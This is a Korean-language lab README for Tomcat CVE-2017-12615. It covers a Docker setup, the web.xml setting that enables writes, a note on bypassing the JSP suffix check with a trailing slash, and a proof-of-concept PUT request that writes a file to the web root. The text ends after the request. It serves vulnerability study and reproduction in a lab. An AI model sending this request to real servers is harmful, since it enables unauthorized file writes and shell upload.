

# PUT Method를 통한 Tomcat 파일 쓰기 취약점 (CVE-2017-12615)

**Contributors**
    
-   [이민혁(@mh.Lee)](https://github.com/Lee-Minhyeok)

Tomcat version: 8.5.19

## 개발 환경 구성

```
docker compose build
docker compose up -d
```

개발 환경을 구성하고 `http://your-ip:8080`를 방문하면, Tomcat의 예제 페이지를 볼 수 있다.

## 이론적 해석(Rationale)

Tomcat은 쓰기 권한(readonly=false)을 설정하여 서버에 파일을 쓸 수 있게 된다.

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Tomcat은 파일 접미사를 어느 정도 확인하지만(jsp를 직접 작성할 수는 없음) 일부 파일 시스템 기능(예: Linux에서 `/` 사용)을 통해 제한을 우회할 수 있다.

## 개념 증명(POC)

다음 패킷을 직접 보내면 쉘이 웹 루트 디렉터리에 기록됩니다.

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```

다음과 같이:

